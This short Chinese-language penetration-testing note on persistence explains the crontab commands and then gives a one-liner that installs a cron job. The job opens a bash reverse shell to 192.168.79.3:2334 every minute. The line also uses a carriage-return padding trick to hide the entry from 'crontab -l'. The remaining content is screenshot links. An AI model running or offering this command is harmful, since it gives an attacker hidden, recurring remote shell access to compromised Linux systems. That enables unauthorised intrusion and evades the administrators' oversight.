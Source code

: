 ![image-20220921213852468](权限维持.assets/image-20220921213852468.png)

~~~
crontab -e 编辑任务
crontab -l 列出任务
~~~



~~~
(crontab -l;printf "* * * * * /bin/bash -c '/bin/sh -i >& /dev/tcp/192.168.79.3/2334 0>&1';\r%100c\n")|crontab -
~~~

把反弹shell加入计划任务里执行

![image-20220921214119550](权限维持.assets/image-20220921214119550.png)

![image-20220921214132404](权限维持.assets/image-20220921214132404.png)
